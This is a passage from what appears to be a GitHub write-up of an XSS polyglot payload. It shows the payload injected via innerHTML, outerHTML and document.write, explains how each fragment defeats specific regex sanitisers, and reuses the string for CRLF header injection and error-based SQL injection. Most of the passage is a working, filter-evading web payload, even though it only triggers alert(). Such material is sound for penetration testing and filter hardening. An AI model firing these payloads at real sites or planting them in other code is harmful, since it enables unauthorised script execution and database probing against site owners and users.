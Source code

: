 * __`innerHTML`/`outerHTML` and `document.write` with HTML-escaped strings:__
```javascript

var data = "jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e";
document.documentElement.innerHTML = data;

```
_Demo: <https://jsbin.com/nimokaz>_

```javascript

var data = "jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e";
document.head.outerHTML = data;

```
_Demo: <https://jsbin.com/yowivo>_

```javascript

var data = "jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e";
document.write(data);
document.close();

```
_Demo: <https://jsbin.com/ruhofi>_

## Filter evasion:
As you might have already noticed, the polyglot has been crafted with filter evasion in mind. For instance:

`jaVasCript:`, `oNcliCk`, et al: Bypasses ```php preg_replace('/\b(?:javascript:|on\w+=)/', '', payload) ```.

`--!>`: Bypasses ```php preg_replace('/-->/', '', payload)```.

``` /*`/*\` ```: Bypasses ```php preg_replace('/`/', '\`', payload) ```.

``` </stYle/</titLe/</teXtarEa/</scRipt/--!> ```: Bypasses ```php preg_replace('<\/\w+>', '', payload) ```.

``` <sVg/oNloAd=alert()//> ```: Bypasses ```php preg_replace('<\w+\s+', '', payload) ```.

## Bonus attacking contexts covered:
#### CRLF-based cross site scripting:
````http

HTTP/1.1 200 OK
Date: Sun, 01 Mar 2016 00:00:00 GMT
Content-Type: text/html; charset=utf-8
Set-Cookie: x=jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//

//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

````
#### Error-based SQL injections (yes, SQLi!):
````sql

SELECT * FROM Users WHERE Username='jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e'

````
````sql

SELECT * FROM Users WHERE Username="jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e"

````